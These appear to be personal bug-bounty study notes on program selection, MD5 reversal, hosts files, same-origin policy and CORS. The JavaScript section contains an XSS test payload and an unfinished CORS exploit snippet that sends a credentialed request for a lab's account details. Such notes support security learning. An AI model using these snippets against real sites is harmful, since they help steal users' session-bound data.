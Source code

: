 # bug hunter  
#  Working tips 
### finding 
```text
1. Find good program 
	- can communicate with team
	- active (see last reports)   
 
2. Write notes when hack 
3. Check previous bugs of that program
4. Exploit & PoC
```  
### attack 
1. Get a feel 
2. Expand 
3. Repeat: same program but new code can still have mistakes
# Crypto 
sometimes, id,pass can be of a hash and is reversible 
### md5  
[MD5 reverse for eccbc87e4b5ce2fe28308fd9f2a7baf3](https://md5.gromweb.com/?md5=eccbc87e4b5ce2fe28308fd9f2a7baf3)
[MD5 Hash Generator](https://www.md5hashgenerator.com/)
# Networking  
[[networking]] 
- hosts file: a DNS on OS, no need since lookup DNS is possible, but still useful if wanna customize mapping name -> IP 
-> take place before DNS lookup  
- origin, same or not [Origin - MDN Web Docs Glossary: Definitions of Web-related terms | MDN](https://developer.mozilla.org/en-US/docs/Glossary/Origin) 
-> SOP: same origin policy
- CORS of a server: decide which origin can fetch current server  
-> if CORS not configured, can fetch freely  
- preflight http 

- 192.168.... [Parts of the IPv4 Address (System Administration Guide: IP Services)](https://docs.oracle.com/cd/E19683-01/806-4075/ipref-1/index.html)
- cURL and browser diff when sending requests: 
browser send cookies
# Javascript 
```js 
document.write("</script>") //not display in HTML  
document.write("<script>") //not display in HTML  

document.write("<script>alert(0)</script>") // possible
document.write("asdfjasdfk")  // possible

# AJAX  
<script> 
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true); 
req.withCredentials = true; 
req.send(); 
function reqListener() { 
```